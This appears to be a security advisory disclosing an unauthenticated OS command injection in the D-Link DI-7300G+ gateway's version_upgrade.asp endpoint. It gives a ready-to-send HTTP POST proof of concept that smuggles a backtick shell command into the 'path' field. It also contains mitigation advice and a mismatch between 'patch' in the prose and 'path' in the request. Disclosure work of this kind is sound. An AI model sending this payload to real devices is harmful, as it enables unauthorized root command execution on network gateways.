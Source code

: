 
# Information


**Vendor of the products:**  D-Link

**Vendor's website:** https://www.dlink.com.cn/

**Affected products:**  DI_7300G+V2

**Affected firmware version:** V 19.12.25A1

**Firmware download address:** [D-Link Technical Support](https://www.dlink.com.cn/techsupport/download.ashx?file=7772)

**Submitter:** Yun Zhang @DavCloudz


# Overview

A critical remote os command execution vulnerability has been identified in the D-Link DI-7300G+ enterprise gateway. The vulnerability exists in the /version_upgrade.asp endpoint. This flaw allows an unauthenticated remote attacker to execute arbitrary operating system commands on the underlying system with elevated privileges.

The vulnerability arises due to insufficient input validation and sanitization of user-supplied data within the HTTP POST request handler for the version_upgrade.asp page. By crafting a malicious POST request containing shell metacharacters and arbitrary commands, an attacker can bypass intended security restrictions. The injected commands are subsequently executed by the device's operating system with root or system-level permissions.

# Vulnerability details

The API for invoking the function

<img width="865" height="599" alt="image" src="https://github.com/user-attachments/assets/df83cf0b-d50a-4d9a-8936-dc7d36eccc21" />


You can see that the values of patch and type are taken, but when the type is empty, it will enter the else branch and stitch the value of patch into the system implementation command to execute

<img width="865" height="732" alt="image" src="https://github.com/user-attachments/assets/d4e3c370-a31b-45c3-944b-0fdb530ad943" />


Although there is filtering, there is still command injection because the filtering is not strict

<img width="865" height="135" alt="image" src="https://github.com/user-attachments/assets/8d9b7ddc-21bd-479c-800e-70463228f00f" />


# POC

```
POST /version_upgrade.asp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wysLanguage=CN; userid=admin; gw_userid=admin,gw_passwd=F499CB5B7A1156B90910F2EE55A10A98
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

path=`ls>/pwn.txt`
```

<img width="865" height="492" alt="image" src="https://github.com/user-attachments/assets/035bfa97-59ae-4a05-b92b-8f868b131bb5" />


# Solution/Mitigation
**Vendor Fix:** Users are strongly advised to upgrade to the latest available firmware version for the DI-7300G+ model. Please check the official D-Link support website for patches and updates.

**Workaround:** If immediate patching is not possible, it is recommended to restrict network access to the web management interface of the device, ensuring it is not exposed to untrusted networks such as the public internet.

